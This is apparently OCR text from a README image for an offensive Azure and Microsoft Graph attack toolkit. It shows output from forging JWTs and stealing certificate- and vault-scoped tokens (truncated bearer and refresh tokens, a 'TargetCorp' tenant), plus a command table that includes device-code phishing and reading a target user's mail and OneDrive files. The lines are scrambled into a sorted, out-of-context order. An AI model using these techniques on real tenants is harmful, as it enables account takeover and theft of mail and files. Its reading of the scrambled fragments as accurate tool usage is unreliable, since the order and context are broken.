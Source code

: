 [*] Get-UserGroupMembership
[*] Invoke-CertToAccessToken
[*] Invoke-CustomQuery
[*] Invoke-RefreshToVaultToken
[*] New-SignedJWT
[*] Scope: https://management.azure.com/.default
[*] Tenant ID: fbf34b9d-6375-4137-ae1f-8cb12df29bb5
[*] access_token: eyJ0eXAiOiJKV1QiL...
[*] access_token: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6IkwxS2ZLRklfam5YYndXYzI...
[*] access_token: eyJ0eXAiOiJKV1QiLCJub2...
[*] expires_in: 3599
[*] expires_in: 5164
[*] ext_expires_in: 3599
[*] ext_expires_in: 5164
[*] foci: 1
[*] id_token: eyJ0eXAiOiJKV1Q...
[*] refresh_token: 0.AUoAQlq91mV...
[*] scope: https://vault.azure.net/user_impersonation https://vault.azure.net/.default
[*] token_type: Bearer
[+] Azure Management Token Obtained!
[+] Certificate Details Obtained!
[+] Forged JWT:
[+] Token Obtained!
[+] Token information written to 'cert_tokens.txt'.
[+] Token information written to 'vault_tokens.txt'.
]
```
```powershell
creds = New-Object System.Management.Automation.PSCredential('app id', $password)
displayName: John Doe
eyJ4NXQiOiJxNnhGejN6RVg4akpheC1paHZlMWgtUmR1TVUiLCJ0eXAiOi...
f9f75aac-fe0a-47e6-bfd3-98d8af327d8a TargetCorp-1           fbf34b9d-6375-4137-ae1f-8cb12df29bb5 AzureCloud
kid: https://devappvault.vault.azure.net/keys/DevAppCert/2fb10001e7f0474916dec596b3818d56
userPrincipalName: JohnDoe@TargetCorp1.onmicrosoft.com
value: [
x5t: 9xdFz3zEX8jJax-ihve1h-GhmQa
| **Find-PrivilegedRoleUsers**                 | Find users with privileged roles assigned                                               |
| **Get-AdministrativeUnitMember** -ID \<admin unit id\>             | Get members of administrative unit                      |
| **Get-AppRoleAssignments** _[-ID <userid/upn>]_                   | Get application role assignments for current user (default) or target user (-id)                                           |
| **Get-ConditionalAccessPolicy** -ID \<cap id\>             | Get conditional access policy properties                            |
| **Get-CrossTenantAccessPolicy**              | Get cross tenant access policy properties                                               |
| **Get-CurrentUser**                          | Get current user profile                                         |
| **Get-CurrentUserActivity**                  | Get recent activity and actions of current user                         |
| **Get-Domains**                              | Get domain objects                                               |
| **Get-GraphTokens**                          | Get graph token via device code phish (saved to _graph_tokens.txt_) | 
| **Get-Group** _[-ID \<groupid\>]_                               | Get all groups (default) or target group (-id)                              |
| **Get-GroupMember** -ID \<groupid\>                         | Get all members of target group                              |
| **Get-Messages** _[-ID \<userid/upn\>]_                            | Get all messages in signed-in user's mailbox (default) or target user (-id)                                               |
| **Get-OneDriveFiles** _[-ID \<userid/upn\>]_                      | Get all accessible OneDrive files for current user (default) or target user (-id)                                             |
```